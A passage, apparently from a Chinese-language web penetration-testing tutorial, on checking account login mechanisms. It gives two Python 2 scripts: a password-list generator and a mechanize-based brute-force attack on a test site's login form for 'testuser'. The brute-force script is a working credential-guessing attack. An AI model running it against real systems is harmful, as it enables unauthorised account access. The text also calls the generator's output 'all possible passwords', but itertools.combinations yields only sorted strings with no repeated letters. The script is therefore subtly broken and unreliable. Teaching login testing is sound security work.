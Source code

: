 因此，我们必须检查账户管理功能，如账户创建、更改密码和找回密码。我们还可以编写定制的暴力和字典攻击脚本，以检查应用程序的登录机制。

我们可以生成包含一系列字符的所有可能密码，如下所示：

```py
# import required modules
from itertools import combinations  

from string import ascii_lowercase 

# Possible password list 

passwords = (p for p in combinations(ascii_lowercase,8)) 

for p in passwords: 

    print ''.join(p) 

```

稍后，我们可以使用这些密码进行暴力攻击，方法如下：

```py
import mechanize 

from itertools import combinations  

from string import ascii_lowercase 

url = "http://www.webscantest.com/login.php" 

browser = mechanize.Browser() 

attackNumber = 1 

# Possible password list 

passwords = (p for p in combinations(ascii_lowercase,8)) 

for p in passwords: 

    browser.open(url) 

    browser.select_form(nr=0) 

    browser["login"] = 'testuser' 

    browser["passwd"] = ''.join(p) 

    res = browser.submit() 

    content = res.read() 

    # Print  response code 

    print res.code 

     # Write response to file 

    output = open('response/'+str(attackNumber)+'.txt', 'w') 

    output.write(content) 

    output.close() 

    attackNumber += 1 
```
